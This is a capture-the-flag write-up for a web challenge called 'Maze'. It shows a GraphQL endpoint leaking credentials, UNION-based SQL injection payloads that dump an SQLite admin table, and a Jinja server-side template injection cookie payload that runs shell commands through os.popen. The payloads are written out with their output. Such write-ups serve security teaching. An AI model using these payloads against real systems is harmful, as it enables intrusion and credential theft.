







# Maze

"maze corparate just started a new trading platform, let's hope its secure because I got all my funds over there"

`<link to website>`

<hr>

The root path of the website redirects to the `/login` path, that presents a login form.



Looking at `/robots.txt` it contains a path `/sup3r_secr37_@p1`. When visiting this path, wer are presented with a GraphiQL window, in which we can run GraphQL queries.

Writing anything in the query side of the page, we can see all queries that we can query against the database (You could also send an introspection query to find all possible queries, but since we have a GraphiQL window here we'll utilize that.). The only possible query is `allTraders`, which I suppose queries for "traders" in the database.

Using the autocomplete/suggestion by GraphiQL, we query for all possible users and get as much data as we can returned by the query:



Using the username `XFT` and the password `iigvj3xMVuSI9GzXhJJWNeI`, we are able to login to the login page at the root path, `"/"`.





Now logged in we observe two things:

1) There is an admin page that looks just like the normal `/login` path
2) There are three coins displayed on the landing page that are displayed on a separate page, queried by the argument `coin`.

Lets see if there's a SQL injection on the query!

We can confirm that there is a SQL injection with the following query:
```
/trade?coin=' AND 1=2 --
```

If the sql server is sqlite3, all table names are stored in the table `sqlite_master`, which has the columns `type`, `name`, `tbl_name`, `rootpage` and most notably `sql` which contains the SQL command to create the table.

Trying our luck we use `UNION SELECT` on the `sqlite_master` table, getting the name of table and the sql command used to create it. Since we know the webpage displays a title and a body for a coin, we can determine that there are two columns fetched so we match that in our `UNION SELECt`.
```
/trade?coin=' AND 1=2 UNION SELECT name, sql FROM sqlite_master --
```

With luck we immediately see the name and the sql command used to create the `admin` table (if we hand't been so lucky we could have specified which row in `sqlite_master` to return using the clause `WHERE rowid=n`). The result is:




We then proceed obtaining all usernames and passwords in the `admin` table using:
```
/trade?coin=' AND 1=2 UNION SELECT username, password FROM admin --
```

The first row returned contains the data:
```
username = admin
password = p0To3zTQuvFDzjhO9
```
which we can then use to login on the `/admin` path.

Now logged in, we are prompted to "get the flag and beat the maze". The cookie `name` is also set to the value `skid`, along with a global variable defined 





We can also observe that the global variable `name` is set to `skid`, which is the same value that the cookie is set to by default. Perhaps this could be a SSTI (Server Side Template Injection).

Setting the cookie to `{{1+1}}`, the name variable is set to :
```javascript
var name = "2";
```

Setting the cookie to `{{3 * '3'}}`, we determine that the template engine is written in python and is most likely [Jinja](https://jinja.palletsprojects.com/en/2.11.x/) (a very popular python template engine). This result is:
```javascript
var name = "333";
```

Knowing the template engine, we can easily execute shell commands via pythons os module. 

Using the shell command `ls` we see that there is a file called `flag.txt` in the current directory.
```
name={{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}

Response:
var name = "Dockerfile
__pycache__
app.py
coins.db
flag.txt
note
requirements.txt
run.sh
sandbox
static
templates
wsgi.py
";
```

Running `cat flag.txt` gives us the flag:

```
name={{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}

flag{u_35c@p3d_7h3_m@z3_5ucc3ssfu77y9933}
```
